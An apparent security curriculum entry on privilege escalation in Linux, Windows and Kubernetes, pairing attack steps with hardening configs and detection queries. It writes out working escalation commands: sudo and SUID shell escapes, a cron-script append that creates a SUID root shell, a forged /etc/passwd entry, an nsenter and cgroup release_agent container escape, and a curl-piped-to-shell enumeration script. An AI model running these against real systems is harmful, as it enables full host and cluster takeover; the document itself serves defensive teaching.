

⚡ TL;DR - Privilege escalation is the attacker technique of gaining higher-level
permissions than initially obtained. Two types: vertical (user → root/admin) and horizontal
(user A → user B, same privilege level). Linux vectors: SUID binaries (`find / -perm -4000`),
sudo misconfigurations (`sudo -l`, any NOPASSWD entry with shell escape), writable PATH entries
(`/tmp` in PATH → drop a fake `ls` executable), cron jobs running as root with writable scripts,
kernel exploits (DirtyPipe CVE-2022-0847, Dirty COW). Windows vectors: token impersonation
(SeImpersonatePrivilege → PrintSpoofer/JuicyPotato), DLL hijacking (service loads DLL from
writable directory), unquoted service paths (`C:\Program Files\App Name\service.exe` →
`C:\Program.exe`), `AlwaysInstallElevated` registry keys. Container escape: privileged pods
(`privileged: true`) → nsenter or mount /proc/sysrq-trigger to reboot host, `hostPID: true`
→ view/kill host processes, writable hostPath mount → write to host filesystem, cgroup escape
(CVE-2019-5736 runc). Tools: GTFObins (Linux binary escape techniques), WinPEAS/LinPEAS
(automated enumeration), BloodHound (AD graph-based privilege path discovery). Mitigations:
least privilege (no sudo, no SUID on custom binaries), Pod Security Standards (Restricted
profile), AppArmor/seccomp profiles, Audit logs of privilege use.

---

| #111 | Category: Security | Difficulty: ★★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Broken Access Control, Cryptographic Failures, Injection, Insecure Design, Security Misconfiguration, Vulnerable Components, Authentication Failures, Software Integrity Failures, Logging Failures, Authentication, Session Management, TLS Configuration, Business Logic, Insufficient Logging, CVSS Scoring, CVE + NVD, Kubernetes Security | |
| **Used by:** | Zero Trust Introduction, Red/Blue/Purple Team, Zero Trust Enterprise, DevSecOps Pipeline, Enterprise Security Architecture, CSIRT Design, Platform Security Engineering, SSDLC, Adversarial Thinking, Trust Boundary Analysis, Assume-Breach, Security as Contract, Threat Modeling | |
| **Related:** | OWASP Top 10, Broken Access Control, Security Misconfiguration, Authentication, Business Logic, CVSS, CVE, Kubernetes Security, Zero Trust, Red/Blue/Purple Team, Zero Trust Enterprise, DevSecOps, Enterprise Security Architecture, CSIRT Design, Platform Security Engineering, SSDLC, Adversarial Thinking, Trust Boundary Analysis | |

---

### 🔥 The Problem This Solves

**WHY PRIVILEGE ESCALATION IS THE SECOND STAGE OF NEARLY EVERY BREACH:**

```
THE ATTACKER'S PROGRESSION:

  Stage 1: Initial Access
    Web shell via file upload vulnerability → limited web server user.
    Phishing email → user account (no admin rights).
    Exposed credential in Git repo → CI service account (limited permissions).
    
    Attacker has access. But limited access.
    Web server: running as www-data, UID 33.
    Cannot: read /etc/shadow, access other users' files,
    install persistence mechanisms (requires root), move laterally.
    
  Stage 2: Privilege Escalation
    Attacker: must escalate to root/admin to achieve objectives.
    
    Check #1: sudo -l
    www-data ALL=(ALL) NOPASSWD: /usr/bin/vim
    → sudo vim → :shell → root shell.
    
    This is not hypothetical. This configuration exists in real systems.
    "We needed the web app to restart nginx" → granted sudo vim instead of sudo systemctl restart nginx.
    Vim has a shell escape. The misconfiguration: granting too broad a command.
    
  THE IMPACT DIFFERENCE:
  
    Without privesc: attacker can read the web app files.
    Can read the database password embedded in app config files.
    
    WITH privesc (root): attacker can:
    - Read all files on the system (/etc/shadow → crack passwords)
    - Add backdoor accounts (persist across reboots)
    - Install keyloggers (capture credentials of users who log in)
    - Access all services running on the host (other databases, internal APIs)
    - Pivot to other systems (SSH private keys, SSRF to internal networks)
    - Exfiltrate the entire database (not just the connection string)
    - Disable logging (cover tracks)
    - Ransomware deployment (if threat actor's goal is financial)
    
    Privilege escalation: transforms limited compromise into total compromise.
    This is why it appears in virtually every serious breach.
    The initial access is rarely the goal.
    Root/admin: the goal that enables all other objectives.
    
  THE CONTAINER ESCAPE VARIANT:
  
    Kubernetes cluster. Attacker: finds RCE in a pod.
    Pod: running as non-root (good security posture).
    Attacker: limited to the pod's filesystem and service account.
    
    Pod manifest check: containers[0].securityContext.privileged = true.
    (Dev added it to debug something 6 months ago. Forgot to remove.)
    
    Attacker from inside the privileged pod:
    nsenter --target 1 --mount --uts --ipc --net -- /bin/bash
    → root shell on the host node.
    
    From the node: access to every pod's secrets on that node.
    Access to the kubelet API. Access to the node's IAM role (EC2 instance profile).
    If the node has the cluster-admin role (common mistake in kops/older clusters):
    complete cluster takeover.
    
    Container escape: kubernetes privilege escalation.
    "Running as non-root" inside a privileged container = security theater.
```

---

### 📘 Textbook Definition

**Privilege Escalation:** An attack technique where an attacker with limited access obtains
higher-level permissions. Two categories: (1) Vertical privilege escalation: gaining a
higher privilege level than authorized (user → root, low-priv service account → admin).
(2) Horizontal privilege escalation: gaining access to another user's resources at the same
privilege level (user A → user B's data, without going through admin).

**SUID (Set User ID):** A Linux permission bit that causes a binary to execute with the file
OWNER'S permissions (not the executor's). Example: `sudo` itself is SUID root - any user can
run it and it briefly runs as root to check sudoers. Dangerous: any custom or vulnerable SUID
binary → privilege escalation via that binary. `find / -perm -u=s -type f 2>/dev/null` lists them.

**GTFObins:** A curated list (https://gtfobins.github.io) of Unix binaries with legitimate uses
that can also be exploited to escalate privileges, escape shells, or bypass access controls.
Example: `find` binary with SUID bit → `find . -exec /bin/sh -p \; -quit` → root shell.
Example: `python3` with sudo NOPASSWD → `sudo python3 -c 'import os; os.system("/bin/sh")'` → root.

**Token Impersonation (Windows):** Windows processes have an access token determining their
permissions. SeImpersonatePrivilege: allows a process to impersonate the security context of
another user. Network services (IIS, SQL Server service accounts) often have this privilege.
Attackers exploit it with tools like PrintSpoofer or JuicyPotato to coerce SYSTEM (LocalSystem)
to authenticate to a controlled named pipe, then impersonate SYSTEM.

**DLL Hijacking (Windows):** Windows loads DLLs in search order (application directory, then
system directories). If a service's application directory is writable, placing a malicious
DLL with the name of a DLL the service loads → code execution as the service's privilege level.
Detected with tools like Procmon (monitoring DLL load attempts that return NOT FOUND).

**Unquoted Service Path:** A Windows service with an executable path containing spaces without
quotes. `C:\Program Files\My App\service.exe` - Windows: tries to execute `C:\Program.exe` first,
then `C:\Program Files\My.exe`, then the actual path. If `C:\Program.exe` or `C:\Program Files\My.exe`
exists and is writable by the attacker: code execution as the service's privilege.

**Container Escape:** An attacker technique where an attacker compromises a container and then
breaks out to the underlying host. Enabled by: `privileged: true` containers (full host access),
`hostPID: true` (can see and interact with host processes), `hostNetwork: true` (bypasses network
isolation), writable `hostPath` mounts (can write to host filesystem), vulnerable container runtimes
(runc CVE-2019-5736, CVE-2022-0847 DirtyPipe in overlayfs).

**LinPEAS / WinPEAS (Privilege Escalation Awesome Scripts):** Automated enumeration tools that
scan a compromised Linux/Windows system for privilege escalation vectors: SUID binaries, sudo
misconfigurations, writable cron jobs, password files, weak service configurations, etc.
Color-coded output: red/yellow = high priority findings. Used by both red teams and defenders
(run against your own systems to find vectors before attackers do).

---

### ⏱️ Understand It in 30 Seconds

**One line:**
Privilege escalation is how an attacker with limited access gains root/admin - transforming a
limited compromise into total system control - using misconfigured sudo, SUID binaries, writable
cron jobs, Windows token impersonation, DLL hijacking, or privileged container escape.

**One analogy:**
> Privilege escalation is like a burglar who gets into the building through a lobby door (initial access)
> and then finds the master key cabinet unlocked (privilege escalation).
>
> Initial access: "I'm in the building. I have access to the lobby."
> Limited: I can only access public areas. Cannot enter the vault, server room, or executive floor.
>
> The master key cabinet (left unlocked by a maintenance person):
> "A sudo misconfiguration. www-data can run /usr/bin/vim as root with no password."
>
> With the master key (root/admin access):
> - Enter every room (read every file, access every service)
> - Make a copy of every key (exfiltrate all credentials)
> - Install a back door (persistence mechanism)
> - Come and go without detection (disable logging)
> - Bring in accomplices (lateral movement via shared credentials)
>
> The locked lobby door (initial access controls):
> Important - but insufficient without locked internal doors (least privilege).
>
> Defense: assume every interior door will be tested.
> Never leave the master key cabinet (root access) within reach of limited access accounts.
> www-data should have EXACTLY the permissions needed to run a web server.
> Nothing more. Verified. Audited.

---

### 🔩 First Principles Explanation

**Linux privilege escalation attack tree:**

```
LINUX PRIVESC ENUMERATION AND EXPLOITATION:

  STEP 1: ENUMERATE (what can I do?)
  
  Check current identity and groups:
    id
    whoami
    groups
    
  Check sudo permissions:
    sudo -l
    
    DANGEROUS patterns:
    (ALL) NOPASSWD: /usr/bin/vim       → GTFObins: :shell
    (ALL) NOPASSWD: /usr/bin/python3   → import os; os.system("/bin/sh")
    (ALL) NOPASSWD: /usr/bin/find      → -exec /bin/sh \;
    (ALL) NOPASSWD: /usr/bin/nmap      → --interactive → !sh
    (ALL) NOPASSWD: /usr/bin/less      → !sh
    (root) NOPASSWD: /usr/bin/cp       → overwrite /etc/passwd
    
  Find SUID binaries:
    find / -perm -u=s -type f 2>/dev/null
    
    Unexpected SUID binaries (not in default install):
    /usr/local/bin/backup_tool    → custom binary, may have shell escape
    /usr/bin/vim.basic            → SUID vim → :shell
    
  Check writable cron jobs:
    cat /etc/crontab
    ls -la /etc/cron.d/ /etc/cron.daily/
    
    DANGEROUS: root cron runs a script that any user can write:
    */5 * * * * root /opt/scripts/backup.sh
    ls -la /opt/scripts/backup.sh → -rwxrwxrwx (world-writable!)
    → echo "chmod u+s /bin/bash" >> /opt/scripts/backup.sh
    → wait 5 minutes → /bin/bash -p → root shell
    
  Check PATH for writable directories:
    echo $PATH
    ls -la $(echo $PATH | tr ':' '\n')
    
    DANGEROUS: /tmp or /home/user in PATH before system dirs
    → create /tmp/ls with content "#!/bin/bash\nbash -i"
    → chmod +x /tmp/ls
    → wait for root process to run `ls` → executes your /tmp/ls as root
    
  Check capabilities:
    getcap -r / 2>/dev/null
    
    DANGEROUS capabilities:
    /usr/bin/python3 = cap_setuid+ep  → os.setuid(0); os.system("/bin/sh")
    /usr/bin/perl    = cap_setuid+ep  → setuid(0); exec("/bin/sh")
    
  Check writable /etc/passwd:
    ls -la /etc/passwd
    -rw-rw-r-- (group writable!)
    → openssl passwd -1 -salt abc password123
    → echo "newroot:$1$abc$....:0:0:root:/root:/bin/bash" >> /etc/passwd
    → su newroot
    
  STEP 2: EXPLOIT (choose the vector with highest confidence)
  
  Example: sudo vim → root
    sudo vim /etc/hosts
    → :set shell=/bin/sh
    → :shell
    root@host:#
    
  Example: writable cron script → root
    echo "cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash" \
      >> /opt/scripts/backup.sh
    # Wait for cron to run...
    /tmp/rootbash -p
    # rootbash-5.1#
```

**Container escape vectors:**

```
KUBERNETES PRIVILEGED CONTAINER ESCAPE:

  CHECK: is the container privileged?
  cat /proc/1/status | grep CapEff
  CapEff: 0000003fffffffff  → all capabilities (privileged)
  
  ESCAPE METHOD 1: nsenter
    # From inside a privileged container:
    nsenter --target 1 --mount --uts --ipc --net -- /bin/bash
    # Now in the host's namespaces, running as root on the node.
    
  ESCAPE METHOD 2: hostPath mount
    Pod manifest: volumeMounts[0].mountPath: /host
    Volume: hostPath.path: /
    # Pod has the entire host filesystem at /host
    # Write authorized_keys:
    echo "attacker-ssh-public-key" \
      >> /host/root/.ssh/authorized_keys
    # SSH to the node as root.
    
  ESCAPE METHOD 3: cgroup v1 notify_on_release
    # Available in privileged containers with cgroup v1
    # (older kernels, older Kubernetes)
    # Release agent is run as root on host when cgroup empties:
    mkdir /tmp/cgrp && mount -t cgroup \
      -o rdma cgroup /tmp/cgrp
    mkdir /tmp/cgrp/x
    echo 1 > /tmp/cgrp/x/notify_on_release
    host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' \
      /etc/mtab)
    echo "$host_path/cmd" > /tmp/cgrp/release_agent
    echo '#!/bin/sh' > /cmd
    echo "id > $host_path/output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    cat /output  # uid=0(root) → code execution on host
```

---

### 🧪 Thought Experiment

**SCENARIO: Running LinPEAS on your own server as a defender:**

```
DEFENSIVE POSTURE CHECK: Run LinPEAS on a production-equivalent staging server
to find privilege escalation vectors before attackers do.

$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh 2>&1 | tee /tmp/linpeas-output.txt

OUTPUT (annotated):

══════════════════════════════════════════╗
╔══════════════ Sudo version ════════════╝
Sudo version 1.9.5p2  ← Check CVE list. 1.9.12p2+ for CVE-2023-22809 fix.

══════════════════════════════════════════╗
╔══════════ Sudo Rules ══════════════════╝
User www-data may run the following commands on webserver:
    (ALL) NOPASSWD: /usr/bin/vim         ← 🔴 CRITICAL
    
ACTION REQUIRED: Change to:
(www-data) NOPASSWD: /bin/systemctl restart nginx
Nothing else. Only the specific command needed.

══════════════════════════════════════════╗
╔══════════ SUID Binaries ═══════════════╝
-rwsr-xr-x root  /usr/local/bin/backup   ← 🔴 SUSPICIOUS
                                           Custom binary + SUID root
                                           Audit: does this need SUID?
                                           
ACTION REQUIRED: 
1. Audit backup binary: does it need root? Use capabilities instead.
2. If SUID needed: verify binary has no shell escape or injection.
3. If SUID not needed: chmod u-s /usr/local/bin/backup

══════════════════════════════════════════╗
╔══════════ Writable Cron Files ══════════╝
/etc/cron.d/app-backup: -rwxrwxr-x      ← 🔴 CRITICAL
                         writable by app group
                         
ACTION REQUIRED: chmod 644 /etc/cron.d/app-backup
Only root should write cron files.

══════════════════════════════════════════╗
╔══════════ Files with Capabilities ══════╝
/usr/bin/python3 = cap_net_bind_service+ep  ← OK (needs port 80/443 binding)
/opt/monitor/agent = cap_setuid+ep          ← 🔴 CRITICAL
                     cap_setuid allows process to setuid(0) = root

ACTION REQUIRED: 
Does the monitoring agent need cap_setuid? Probably not.
Remove: setcap -r /opt/monitor/agent

═══════════════════════════════════════════╗
╔═════ Interesting PATH in cron ═══════════╝
PATH=/usr/local/sbin:/usr/local/bin:/tmp  ← 🔴 CRITICAL
/tmp in root cron PATH = PATH hijack vector

ACTION REQUIRED: Remove /tmp from root cron PATH.
Only absolute paths in root cron scripts.

RESULT: 4 critical privilege escalation vectors on a production-equivalent server.
Time to find: 15 minutes with LinPEAS.
Time for attacker to find: same 15 minutes.
Time to fix: 2 hours.
Risk if not fixed: any compromise of www-data → immediate root.
```

---

### 🧠 Mental Model / Analogy

> Privilege escalation is about the difference between what you have and what the attacker FINDS.
>
> You HAVE: a web application running as www-data with no sudo rights.
> The attacker FINDS: a SUID binary left by a previous admin, a writable cron script,
> a sudo rule that grants too broad a command.
>
> The gap between "what we intended" and "what actually exists" is the privilege escalation surface.
>
> This gap exists for three reasons:
>
> 1. Configuration drift: systems accumulate changes over time.
>    "We temporarily added sudo vim to debug the production issue."
>    The issue was resolved. The sudo rule was not removed.
>    18 months later: still there. Still exploitable.
>
> 2. Implicit trust: "nobody can reach this internal server anyway."
>    Network segmentation breaks. Attacker gets initial access.
>    The "protected" internal server: full of privileged escalation vectors
>    because defenders assumed attackers couldn't reach it.
>
> 3. Capability creep: "the app needs to bind to port 80."
>    Solution: run app as root. (Easier than cap_net_bind_service.)
>    Side effect: if app is compromised, attacker immediately has root.
>    The correct solution (capabilities) was not used because it required more effort.
>
> Defense principle: minimize the blast radius at every privilege boundary.
> Ask: "if THIS account is compromised, what can the attacker reach?"
> If the answer is "the entire system": you haven't implemented privilege escalation defense.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
Privilege escalation is how an attacker who has gotten into a computer as a limited user gains administrator ("root") access. It's like a hotel guest who gets into the building (initial access) then finds an unlocked master key cabinet. Common methods: the guest account can run a text editor as admin (used to get a command shell), or an admin program has a security flaw that lets you impersonate admin. Defense: never give more permissions than absolutely necessary.

**Level 2 - How to use it (junior developer):**
As a developer, you introduce privilege escalation risk through: (1) Running services as root instead of a dedicated service user. Fix: create a dedicated user for each service. (2) Setting `SUID` on custom binaries that don't need it. Fix: only use SUID if absolutely required; use `sudo` rules or Linux capabilities instead. (3) Writing scripts that run as root in cron but are writable by non-root users. Fix: cron scripts must be owned by root, mode 644 (read-only for non-root). (4) Using `sudo NOPASSWD: /usr/bin/vim` or other interactive tools. Fix: grant only the specific command needed: `sudo NOPASSWD: /bin/systemctl restart nginx`. Run `sudo -l` after any system configuration change to audit what sudo rules exist.

**Level 3 - How it works (mid-level engineer):**
Linux privesc vectors in depth: (1) SUID exploitation: `find / -perm -u=s -type f 2>/dev/null`. Any SUID binary not in the default OS package list: investigate. GTFObins: check if it's listed. (2) Sudo enumeration: `sudo -l`. Any `NOPASSWD` rule with an interactive binary: check GTFObins. (3) Cron: `cat /etc/crontab; ls -la /etc/cron.*`. Scripts run as root must not be writable by non-root. (4) Capabilities: `getcap -r / 2>/dev/null`. `cap_setuid` + `cap_dac_override` on unexpected binaries: dangerous. (5) NFS with no_root_squash: mount NFS share, create SUID binary on the share, execute from the server. Container escape: the privileged container is the most common vector in modern cloud environments. `kubectl get pods -A -o json | jq '.items[] | select(.spec.containers[].securityContext.privileged == true)'` → list all privileged pods across the cluster.

**Level 4 - Why it was designed this way (senior/staff):**
Privilege escalation vectors exist because the Unix permission model (users, groups, SUID) was designed in an era where physical access to servers was the security boundary. SUID was designed for legitimate need (passwd must write to /etc/shadow while running as any user). Over time: attackers discovered that ANY binary with SUID could be a privilege escalation vector if it had a shell escape, system() call, or arbitrary write. GTFObins documents these for hundreds of common utilities. Windows token impersonation (SeImpersonatePrivilege): designed for legitimate use (IIS worker processes impersonating the authenticated user to access resources). The same mechanism: exploited because network service accounts with SeImpersonatePrivilege can coerce SYSTEM authentication and impersonate it. The pattern across all privilege escalation: legitimate functionality designed for a specific purpose, misused because the privilege model is overly broad. The defense: principle of least privilege (apply to every account, every binary, every container). But least privilege requires deliberate effort at every configuration decision, whereas "grant root" or "use privileged container" is the path of least resistance. Security investment: making least privilege the path of least resistance (tooling, templates, policy enforcement).

**Level 5 - Mastery (distinguished engineer):**
Kernel-level privilege escalation: the most powerful but hardest to exploit. CVE-2022-0847 (DirtyPipe): Linux kernel 5.8+, uninitialized pipe buffer flag, allows writing to arbitrary read-only files (including SUID binaries, cron files). Patched in 5.16.11, 5.15.25, 5.10.102. If kernel is unpatched: any local user can overwrite SUID binaries. Detection: `uname -r` → compare against CVE database. Mitigation: kernel updates (standard vulnerability management). Container escape via CVE-2019-5736 (runc): overwrite the runc binary from inside the container via `/proc/self/exe`. Root container + writable /proc/self/exe in old runc → root on host. Patched in runc 1.0.0-rc7. Linux namespaces and seccomp as privilege escalation mitigations: containers without AppArmor/seccomp profiles have access to all system calls. `mount(2)` system call: allows a container to mount host filesystems if not blocked by seccomp. Seccomp profile (block dangerous syscalls): `SCMP_ACT_ERRNO` for `mount`, `ptrace`, `kexec_load` etc. AppArmor profile: can deny `/proc/sysrq-trigger`, `/sys/kernel/debug` writes. Kubernetes PSS (Pod Security Standards) Restricted profile: blocks hostPID, hostNetwork, hostPath volumes, privileged, allows only specific capabilities (NET_BIND_SERVICE), requires runAsNonRoot, requires seccompProfile (RuntimeDefault or Localhost). This is the highest confidence mitigation for container escape short of gVisor/kata-containers (hardware virtualization boundary).

---

### ⚙️ How It Works (Mechanism)

```
PRIVILEGE ESCALATION ATTACK CHAIN:

  Initial Access (limited user)
         ↓
  Enumeration (sudo -l, find SUID, check cron, LinPEAS)
         ↓
  Identify Vector (SUID, sudo, writable cron, capabilities, DLL, token)
         ↓
  Exploit Vector
         ↓
  Root/SYSTEM Shell
         ↓
  Persistence (backdoor account, SUID shell, scheduled task)
         ↓
  Lateral Movement, Data Exfiltration, Objective Achievement
```



---

### 💻 Code Example

**Linux: SUID enumeration and secure sudo configuration:**

```bash
# BAD: granting interactive tool sudo access for a limited task
# /etc/sudoers - DO NOT DO THIS:
# www-data ALL=(ALL) NOPASSWD: /usr/bin/vim  ← root shell via :shell
# www-data ALL=(ALL) NOPASSWD: /usr/bin/python3 ← root shell via os.system
# www-data ALL=(ALL) NOPASSWD: /bin/sh  ← direct shell

# GOOD: grant ONLY the specific command needed, no shell:
# /etc/sudoers - safe approach:
www-data ALL=(root) NOPASSWD: /bin/systemctl restart nginx
# No shell escape possible: systemctl doesn't spawn interactive shells.
# Verify: sudo -u www-data sudo -l → shows exactly this, nothing else.

# Audit current sudo rules:
sudo -l -U www-data 2>/dev/null
grep -r NOPASSWD /etc/sudoers /etc/sudoers.d/ 2>/dev/null | \
  grep -v "^#"

# Find SUID binaries (run as privileged user to scan all):
find / -perm -u=s -type f 2>/dev/null | \
  sort | \
  while read -r bin; do
    pkg=$(dpkg -S "$bin" 2>/dev/null | cut -d: -f1)
    echo "$bin | package: ${pkg:-NOT_IN_PACKAGE}"
  done
# Any binary not from a system package: investigate immediately.

# Remove unnecessary SUID bit:
# chmod u-s /usr/local/bin/backup_tool
# Alternative: use sudo rule instead of SUID.

# Use Linux capabilities instead of SUID where possible:
# Allow binding to privileged ports without root:
setcap cap_net_bind_service=+ep /opt/app/server
# Verify:
getcap /opt/app/server
# /opt/app/server = cap_net_bind_service+ep
# Service can now bind to port 80/443 without running as root.

# Audit all capabilities:
getcap -r / 2>/dev/null
# Any cap_setuid, cap_dac_override, or cap_sys_admin on non-OS binaries:
# investigate and remove if unnecessary.
```

**Kubernetes: blocking container escape with PSS Restricted profile:**

```yaml
# BAD: privileged container - full host access:
# spec:
#   containers:
#   - securityContext:
#       privileged: true     ← container escape via nsenter
#     ...
# Never deploy this in production.

# GOOD: PSS Restricted-compliant pod spec:
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
  namespace: production
spec:
  # Node-level security:
  hostPID: false       # Cannot see host processes
  hostIPC: false       # Cannot access host IPC
  hostNetwork: false   # Cannot bypass CNI network policies
  
  securityContext:
    # Run as non-root user:
    runAsNonRoot: true
    runAsUser: 1000
    runAsGroup: 1000
    fsGroup: 1000
    
    # Seccomp: use RuntimeDefault profile
    # (blocks dangerous syscalls like ptrace, kexec_load, mount):
    seccompProfile:
      type: RuntimeDefault
    
    # Read-only root filesystem (prevents writing malicious binaries):
    # (set at container level below)
    
  containers:
  - name: app
    image: company/app:sha256-abc123
    
    securityContext:
      privileged: false            # NEVER true in production
      allowPrivilegeEscalation: false  # Cannot gain more privs
      readOnlyRootFilesystem: true     # Prevent writing to container FS
      
      # Drop ALL capabilities, add back only what's needed:
      capabilities:
        drop:
        - ALL
        add:
        # Only add if app needs port 80/443 binding:
        # - NET_BIND_SERVICE
    
    resources:
      limits:
        cpu: "500m"
        memory: "256Mi"
      requests:
        cpu: "100m"
        memory: "128Mi"
        
    volumeMounts:
    # Only mount what's needed. No hostPath mounts (escape vector).
    - name: tmp
      mountPath: /tmp  # Writable tmp (since root FS is read-only)
      
  volumes:
  # Use emptyDir (in-pod only), never hostPath:
  - name: tmp
    emptyDir: {}
    # NOT:
    # hostPath:
    #   path: /host/data  ← host filesystem access

---
# Namespace-wide enforcement via PSS labels:
# (apply to namespace to enforce on all pods):
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    # Enforce Restricted profile: reject non-compliant pods:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
    # Warn (don't block) in staging:
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/audit: restricted
```

**Windows: detecting and blocking DLL hijacking:**

```powershell
# Find DLL hijacking opportunities:
# Use Sysinternals Process Monitor to find DLL NOT FOUND events.
# Or: PowerUp.ps1 from PowerSploit (defensive use - run on your own systems)

# Check for unquoted service paths (PowerShell):
Get-WmiObject Win32_Service |
  Where-Object {
    $_.PathName -notmatch '^"' -and
    $_.PathName -match ' '
  } |
  Select-Object Name, PathName, StartMode, State

# BAD output (unquoted path with spaces):
# Name    : MyService
# PathName: C:\Program Files\My App\service.exe   ← VULNERABLE
# 
# Attack: create C:\Program.exe (if writable)
# Windows will execute it as the service user.

# FIX: ensure all service paths are quoted:
# sc config MyService binpath= '"C:\Program Files\My App\service.exe"'

# Check AlwaysInstallElevated (MSI as SYSTEM):
$hklm = Get-ItemProperty -Path `
  "HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer" `
  -Name AlwaysInstallElevated -ErrorAction SilentlyContinue
$hkcu = Get-ItemProperty -Path `
  "HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer" `
  -Name AlwaysInstallElevated -ErrorAction SilentlyContinue

if ($hklm.AlwaysInstallElevated -eq 1 -and
    $hkcu.AlwaysInstallElevated -eq 1) {
  Write-Warning "VULNERABLE: AlwaysInstallElevated is set."
  Write-Warning "Any user can install MSI as SYSTEM."
  Write-Warning "Fix: set both keys to 0 or remove them."
}
```

---

### ⚖️ Comparison Table

| Vector | Platform | Tool to Find | Mitigation | Difficulty |
|:---|:---|:---|:---|:---|
| SUID binary | Linux | `find / -perm -u=s` | Remove SUID, use sudo/capabilities | Low-Medium |
| Sudo misconfiguration | Linux | `sudo -l` | Restrict to exact commands, no interactive tools | Low |
| Writable cron | Linux | `ls -la /etc/cron*` | chmod 644, root-owned only | Low |
| Capabilities | Linux | `getcap -r /` | Remove unnecessary caps | Medium |
| Kernel exploit | Linux | `uname -r` + CVE check | Patch kernel | High |
| Token impersonation | Windows | WinPEAS | Remove SeImpersonatePrivilege, use managed identities | Medium |
| DLL hijacking | Windows | Procmon, PowerUp | Quote service paths, restrict install dirs | Medium |
| Unquoted service path | Windows | PowerShell (above) | Quote all service paths | Low |
| Privileged container | Kubernetes | `kubectl get pods -o json` | PSS Restricted, drop all capabilities | Low (to detect) |
| hostPath mount | Kubernetes | `kubectl get pods -o json` | Disallow hostPath via PSA/OPA | Low (to detect) |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "We run our containers as non-root, so container escape is not possible." | Running as non-root inside a container protects against one attack class (exploits that require UID 0 inside the container). It does NOT prevent container escape if the container has `privileged: true` or dangerous capabilities. A non-root user inside a privileged container can still call `nsenter --target 1 --mount -- /bin/bash` because nsenter uses Linux namespaces, not UID checks. The namespace join succeeds based on the container's capabilities (all capabilities in privileged mode), not its UID. Similarly: `hostPath` volume with the root filesystem mounted at `/host` → a non-root container user can still read the host filesystem files owned by non-root users or world-readable files (e.g., Kubernetes secrets stored on disk, service account tokens at /host/var/run/secrets). Full protection: PSS Restricted profile (`privileged: false`, no `hostPID/hostNetwork/hostIPC`, no `hostPath`, `allowPrivilegeEscalation: false`, seccomp RuntimeDefault, drop ALL capabilities). "Non-root" alone is necessary but not sufficient. |
| "Penetration testers only use privilege escalation, defenders don't need to understand it." | Defenders MUST understand privilege escalation to defend against it. Threat modeling (SEC-144): "what can the attacker do after initial access?" requires understanding escalation paths. Incident response (SEC-101): "what did the attacker access after the initial foothold?" requires understanding the escalation path taken. Security hardening: applying least privilege requires knowing what the attack vectors are. If you don't know that `sudo NOPASSWD: /usr/bin/vim` is a root shell, you don't know you shouldn't configure it. Defense-in-depth design: each layer should assume the previous layer is compromised. If web server is compromised (initial access): what can the attacker escalate to? If you haven't modeled this, you haven't designed the layer below. Running LinPEAS/WinPEAS on your own systems quarterly: standard security hygiene for defenders. Finding the same vectors an attacker would find, before they do. |

---

### 🚨 Failure Modes & Diagnosis

**Detecting active privilege escalation and post-escalation activity:**

```
LINUX: SUID binary abuse detection

  SIEM rule: process spawned by SUID binary that spawns an interactive shell.
  
  Splunk query:
  index=linux_auditd eventtype=execve
  | where parent_process IN ("/usr/bin/vim", "/usr/local/bin/backup")
  | where process IN ("/bin/sh", "/bin/bash", "/bin/dash")
  | stats count by host, parent_process, user, _time
  
  Alert: any shell spawned from an unusual parent process.
  Legitimate: bash → bash is normal. vim → bash: NOT normal.
  
KUBERNETES: privileged container audit

  AWS CloudTrail / Kubernetes audit log:
  - Look for pods created with privileged: true
  - Look for pods with hostPID: true or hostNetwork: true
  - Look for exec into privileged pods
  
  kubectl get events --all-namespaces |
    grep -i "privileged\|hostpid\|hostpath"
  
  OPA/Kyverno policy violation events:
    If PSS Restricted enforced, creation of non-compliant pods
    → PolicyViolation admission webhook event → alert.
    
WINDOWS: token impersonation detection

  Windows Security Event Log:
  Event ID 4672: "Special privileges assigned to new logon"
  User: AppPool\WebApp
  Privileges: SeImpersonatePrivilege
  → Monitor for network service accounts gaining additional privileges.
  
  Event ID 4688: Process creation with elevated token
  Creator: low-priv service account
  New process: cmd.exe or powershell.exe
  → Network service accounts should not spawn interactive shells.

GENERAL PRINCIPLE: establish BASELINES for what's normal:
  - Which accounts have sudo? (Should not change without change request)
  - Which binaries have SUID? (Should match known-good list)
  - Which pods are privileged? (Should be zero in production)
  - Which Windows services have SeImpersonatePrivilege? (Document and monitor)
  Alert on deviation from baseline. Not just on detection of known-bad.
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10: Broken Access Control` (SEC-001) - logical access control failures
- `Security Misconfiguration` (SEC-005) - misconfigs are the primary privesc enabler
- `Kubernetes Security Fundamentals` (SEC-104) - container escape context

**Builds on this:**
- `Zero Trust Introduction` (SEC-112) - least privilege as zero trust pillar
- `Red/Blue/Purple Team` (SEC-113) - red team exercises privilege escalation techniques
